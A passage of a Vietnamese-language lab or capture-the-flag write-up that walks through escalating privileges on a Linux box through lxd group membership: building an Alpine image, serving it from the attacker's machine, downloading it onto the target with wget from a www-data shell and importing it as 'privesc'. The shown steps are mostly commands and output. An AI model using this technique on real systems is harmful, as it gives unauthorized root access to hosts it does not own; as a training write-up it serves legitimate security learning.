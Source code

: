 ## Privilege escalation

Tôi để ý user này có trong group lxd. Nói qua 1 chút về lxd thì nó giống như docker sử dụng các container để đóng gói môi trường, nhưng nhẹ hơn và cho tốc độ cao hơn. 

Tôi sẽ sử dụng cách leo thang đặc quyền với lxd được trình bày ở [đây](https://exploit-notes.hdks.org/exploit/lxc-lxd-privilege-escalation/)

Đầu tiên tạo image mới trên máy local 

`git clone https://github.com/saghul/lxd-alpine-builder.git`

`cd lxd-alpine-builder`

`sudo ./build-alpine`

Sau khi thực hiện build xong, kiểm tra lại file *.tar.gz* vừa tạo

```python
┌──(kali㉿kali)-[~/lxd-alpine-builder]
└─$ ll
total 3732
-rw-r--r-- 1 root root 3776904 Dec 26 23:08 alpine-v3.17-x86_64-20221226_2308.tar.gz
-rwxr-xr-x 1 kali kali    8060 Dec 26 23:06 build-alpine
-rw-r--r-- 1 kali kali   26530 Dec 26 23:06 LICENSE
-rw-r--r-- 1 kali kali     768 Dec 26 23:06 README.md
```

Sau đó tạo http local server trên máy local và từ máy remote thực hiện lấy file alpine vừa tạo

```python
┌──(kali㉿kali)-[~/lxd-alpine-builder]
└─$ python -m http.server                
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)
```

```python
www-data@ubuntu:/tmp$ wget http://10.6.0.191:8000/alpine-v3.17-x86_64-20221226_2308.tar.gz
<0.191:8000/alpine-v3.17-x86_64-20221226_2308.tar.gz
http://10.6.0.191:8000/alpine-v3.17-x86_64-20221226_2308.tar.gz
Connecting to 10.6.0.191:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3776904 (3.6M) [application/gzip]
Saving to: 'alpine-v3.17-x86_64-20221226_2308.tar.gz'
```

Import image mới này với tên __privesc__

```python
www-data@ubuntu:/tmp$ lxc image import ./alpine-v3.17-x86_64-20221226_2308.tar.gz --alias privesc
<e-v3.17-x86_64-20221226_2308.tar.gz --alias privesc
Image imported with fingerprint: 6f955b8c349dff3536f22249c66a037f172efcc113b97a54cf35ccb380631654
```

Kiểm tra xem image đã import thành công chưa

```python
www-data@ubuntu:/tmp$ lxc image list
lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
| privesc | 6f955b8c349d | no     | alpine v3.17 (20221226_23:08) | x86_64 | 3.60MB | Dec 27, 2022 at 8:31am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+------------------------------+
```
